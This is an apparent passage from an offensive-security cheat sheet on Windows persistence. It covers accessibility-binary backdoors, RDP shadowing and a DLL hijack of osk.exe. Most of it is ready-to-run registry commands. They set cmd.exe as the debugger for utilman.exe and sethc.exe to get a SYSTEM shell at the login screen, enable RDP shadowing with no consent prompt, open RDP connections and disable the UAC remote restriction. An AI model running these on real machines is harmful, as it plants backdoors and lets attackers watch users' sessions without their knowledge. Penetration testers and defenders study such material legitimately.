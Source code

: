 | Feature             | Executable                            |
|---------------------|---------------------------------------|
| Sticky Keys         | C:\Windows\System32\sethc.exe         |
| Accessibility Menu  | C:\Windows\System32\utilman.exe       |
| On-Screen Keyboard  | C:\Windows\System32\osk.exe           |
| Magnifier           | C:\Windows\System32\Magnify.exe       |
| Narrator            | C:\Windows\System32\Narrator.exe      |
| Display Switcher    | C:\Windows\System32\DisplaySwitch.exe |
| App Switcher        | C:\Windows\System32\AtBroker.exe      |

In Metasploit : `use post/windows/manage/sticky_keys`

#### Binary Replacement on Windows 10+

Exploit a DLL hijacking vulnerability in the On-Screen Keyboard **osk.exe** executable.

Create a malicious **HID.dll** in  `C:\Program Files\Common Files\microsoft shared\ink\HID.dll`.


### RDP Backdoor

#### utilman.exe

At the login screen, press Windows Key+U, and you get a cmd.exe window as SYSTEM.

```powershell
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
```

#### sethc.exe
 
Hit F5 a bunch of times when you are at the RDP login screen.

```powershell
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
```

### Remote Desktop Services Shadowing

:warning: FreeRDP and rdesktop don't support Remote Desktop Services Shadowing feature.

Requirements:
* RDP must be running

```powershell
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v Shadow /t REG_DWORD /d 4
# 4 – View Session without user’s permission.

# Allowing remote connections to this computer
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f


# Disable UAC remote restriction
reg add HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f

mstsc /v:{ADDRESS} /shadow:{SESSION_ID} /noconsentprompt /prompt
# /v parameter lets specify the {ADDRESS} value that is an IP address or a hostname of a remote host;
# /shadow parameter is used to specify the {SESSION_ID} value that is a shadowee’s session ID;
```